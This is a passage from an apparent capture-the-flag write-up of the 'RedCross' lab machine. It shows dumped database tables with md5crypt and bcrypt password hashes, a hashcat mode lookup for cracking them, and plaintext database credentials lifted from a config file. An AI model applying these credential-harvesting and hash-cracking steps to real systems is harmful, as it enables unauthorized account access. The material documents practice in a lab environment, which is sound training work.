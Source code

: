 ```
                        echo "<input type=submit name=action value=del></form></td></tr>";
                }
                echo "</table></center>";
        }

} else {
        header('Location: /');
        exit;
}
```

```
SELECT * FROM passwd_table;
WARNING: terminal is not fully functional
-  (press RETURN) username |               passwd               | uid  | gid  | gecos |    homedi
r     |   shell
----------+------------------------------------+------+------+-------+----------
------+-----------
 tricia   | $1$WFsH/kvS$5gAjMYSvbpZFNu//uMPmp. | 2018 | 1001 |       | /var/jail
/home | /bin/bash
 admin    | $1$3hjoBZc3$oU7XZwHqVopMa7i7IEvs6/ | 2020 | 1001 |       | /var/jail
/home | /bin/bash
(2 rows)

```


We have a hash that looks like a md5crypt hash so let's hashcat it!
```
 hashcat -h | grep -i md5crypt
    500 | md5crypt, MD5 (Unix), Cisco-IOS $1$ (MD5)    | Operating System

```

Hey my bro, there are further credentials over init.php in the intra domain!:
```
#database configuration
$dbhost='127.0.0.1';
$dbuser='dbcross';
$dbpass='LOSPxnme4f5pH5wp';
$dbname='redcross';


# from actions.php
SELECT id, password, mail, role FROM users WHERE username = ?"
```

Forget about previous hashes, we have the goodones now!

```
select * from users;

+----+----------+--------------------------------------------------------------+------------------------------+------+
| id | username | password                                                     | mail                         | role |
+----+----------+--------------------------------------------------------------+------------------------------+------+
|  1 | admin    | $2y$10$z/d5GiwZuFqjY1jRiKIPzuPXKt0SthLOyU438ajqRBtrb7ZADpwq. | admin@redcross.htb           |    0 |
|  2 | penelope | $2y$10$tY9Y955kyFB37GnW4xrC0.J.FzmkrQhxD..vKCQICvwOEgwfxqgAS | penelope@redcross.htb        |    1 |
|  3 | charles  | $2y$10$bj5Qh0AbUM5wHeu/lTfjg.xPxjRQkqU6T8cs683Eus/Y89GHs.G7i | charles@redcross.htb         |    1 |
|  4 | tricia   | $2y$10$Dnv/b2ZBca2O4cp0fsBbjeQ/0HnhvJ7WrC/ZN3K7QKqTa9SSKP6r. | tricia.wanderloo@contoso.com |  100 |
```
